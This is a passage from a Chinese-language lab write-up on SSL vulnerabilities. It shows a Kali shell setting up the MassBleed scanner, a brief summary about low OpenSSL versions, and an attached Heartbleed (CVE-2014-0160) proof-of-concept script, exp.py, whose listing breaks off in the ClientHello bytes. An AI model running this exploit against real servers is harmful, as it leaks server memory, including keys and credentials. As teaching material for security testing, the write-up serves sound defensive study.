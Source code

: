 ```
-rwxr-xr-x 1 root root   6299  1月 21 16:29 winshock.sh
                                                                     
┌──(root💀kali)-[~/MassBleed]
└─# pwd                 
/root/MassBleed                                     
┌──(root💀kali)-[~/MassBleed]
└─# 
┌──(root💀kali)-[~/MassBleed]
└─# chmod +x massbleed.sh  
```

# 五、总结
* 在遇到一些扫描报告出现ssl漏洞可以利用的时候，不能轻视，不是加了ssl就是很保险的，在信息收集与漏洞扫描的时候，这些漏洞往往会造成很怕的影响，但是这里的SSL漏洞还是比较低级的，主要是服务端使用的Openssl版本是比较低的

# 六、附件
exp.py
```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.


"""
执行方式：
python exp.py 192.168.10.134 -p 443
注意版本：是python2
"""
import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]',
                       description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')


hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
```